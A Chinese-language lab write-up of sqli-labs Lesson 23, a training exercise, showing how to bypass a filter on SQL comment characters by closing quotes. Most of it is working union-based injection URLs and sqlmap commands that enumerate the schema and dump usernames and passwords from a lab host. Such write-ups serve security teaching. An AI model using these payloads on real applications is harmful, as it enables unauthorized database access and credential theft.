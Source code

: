 ```yaml
---
title: sqli-labs lession 23 GET基于错误的过滤注释
date: 2018-10-03 13:05:05
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession 23 GET基于错误的过滤注释

---

## 登录界面

![001](/img/sql/Lesson-23/001.png)

## 分析

这里对输入的`#`和`-- `的mysql注释方式进行了过滤。都替换成了空。

![002](/img/sql/Lesson-23/002.png)

用`'`发现报错,但是因为过滤了`#`和`-- `只能使用闭合绕过了。

![003](/img/sql/Lesson-23/003.png)

`http://192.168.75.131/sql/Less-23/?id=1' or '1'='1`

![004](/img/sql/Lesson-23/004.png)

## 手注

### 获取字段数

`http://192.168.75.131/sql/Less-23/?id=1' union select null,null,null or '1'='1`

![005](/img/sql/Lesson-23/005.png)

### 获取当前数据库

`http://192.168.75.131/sql/Less-23/?id=-1' union select 1,(select database()),3 or '1'='1`

![006](/img/sql/Lesson-23/006.png)

### 获取表名

`http://192.168.75.131/sql/Less-23/?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 or '1'='1`

![007](/img/sql/Lesson-23/007.png)

### 获取列名

`http://192.168.75.131/sql/Less-23/?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3 or '1'='1`

![008](/img/sql/Lesson-23/008.png)

### 获取字段值

`http://192.168.75.131/sql/Less-23/?id=-1' union select 1,(select group_concat(id,'~',username,'~',password) from security.users),3 or '1'='1`

![009](/img/sql/Lesson-23/009.png)

## SQLMAP

`python sqlmap.py -u "http://192.168.75.131/sql/Less-23/?id=-1' or '1'='1 " --dbms mysql --threads 10 --method GET --technique B `

![010](/img/sql/Lesson-23/010.png)

`python sqlmap.py -u "http://192.168.75.131/sql/Less-23/?id=1" --threads 10 -D security -T users --columns --dump`

![011](/img/sql/Lesson-23/011.png)

